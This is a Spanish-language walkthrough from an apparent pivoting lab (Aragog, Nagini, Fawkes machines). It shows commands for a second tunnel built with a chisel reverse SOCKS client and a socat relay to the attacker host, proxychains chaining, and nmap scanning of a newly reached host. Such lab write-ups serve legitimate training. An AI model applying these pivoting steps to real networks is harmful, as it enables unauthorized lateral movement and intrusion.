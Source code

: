 ### Pocedimiento hackeo resumen.

Lo mismo que cuando llegamos a la Aragog; despúes de llegar a root en la máquina Nagini realizamos un descubrimiento de hosts y puertos, podemos usar las herramientas hostDiscovery.sh y portDiscovery.sh usadas antes. Yo las ejecutaría desde esa misma máquina, más simple.

**Descubriendo más equipos:**

Descubrimos las IPs **192.168.100.130 - Dumbledore-PC** y la **192.168.100.129 - Fawkes**. Solo visibles desde la Nagini.

Vamos primero a por la **Fawks**:

### El segundo túnel.

Al intentar llegar a otro segmento tendremos que crearnos **el segundo túnel**.

Ahora desde la máquina Nagini que es la que conecta con los nuevos segmentos tendremos que correr el chisel en modo cliente, pero tendrás que conectar hacia Aragog, y ya desde Aragog que te rediriga con socat hacia mi máquina atacante. ¡¡¡Vamos a por el segundo túnel!!!:

1. Primeramente hay que transferir el chisel a la máquina Nagini:
```sh
proxychains scp chisel root@10.10.0.129:/tmp/chisel
```
2. Nos conectamos a la Nagini.
```sh
proxychains ssh root@10.10.0.129

chmod +x chisel # damos permiso de ejecución.
```
Tenemos que hacer de la Nagini el cliente para poder conectarse a mi equipo atacante por el puerto 1234 por ejemplo. Imagina que el cliente siempre es el que usas de pivote para saltar a las otros segmentos, es el intermediario a los nuevos equipos que descubras. Antes fue Aragog el cliente para llegar a la Nagini, ahora será la Nagini para llegar a los equipos Dumbledore y Fawks.

3. chisel cliente Nagini y socat en Aragog hacia mi host atacante:  
En Nagini:
```sh
./chisel client 10.10.0.128:2322 R:8888:socks # No lances comando hasta lanzar el socat en Aragog.
```
En Aragog el socat:
```sh
./socat TCP-LISTEN:2322,fork TCP:192.168.111.106:1234
# Con chisel se estan conectando a Aragog por el puerto 2322, quiero redirigirlo hacía mi ordenador atacante por el puerto 1234 porque es ahí donte tengo el túnel creado.
```
¡ Importante entendero esto!, lo llevas al puerto 1234 porque es ahí donde tu tienes el túnel creado. Recuerda este comando del principio `./chisel server --reverse -p 1234`.

Lanzas los comandos y se te habrá llegado una conexión -túnel- por el puerto 8888 a tu máquina atacante.

4. Modificando el /etc/proxychains.conf.

Descomentas el dynamic_chain y comentas el strict_chain.  
Y abajo del archivo donde habías puesto para el primer túnel; socks5 127.0.0.1 1080 Tienes que añadir arriba de esa línea, **porque tienes que poner el último túnel creado en la linea de arriba**, quedaría así:
```
# Parte de abajo del archivo
socks5 127.0.0.1 8888
socks5 127.0.0.1 1080
```
5. Comprobación. Descubriendo puertos de la máquina Fawks.
```sh
proxychains nmap -sT -Pn --top-ports 500 -open -T5 -v -n 192.168.100.129 2>/dev/null
# Redirige los errores porque con proxychains puede dar problemas.
# Con la opción -sS no te dejará porque solo permite un tipo y ya está el -sT.
```
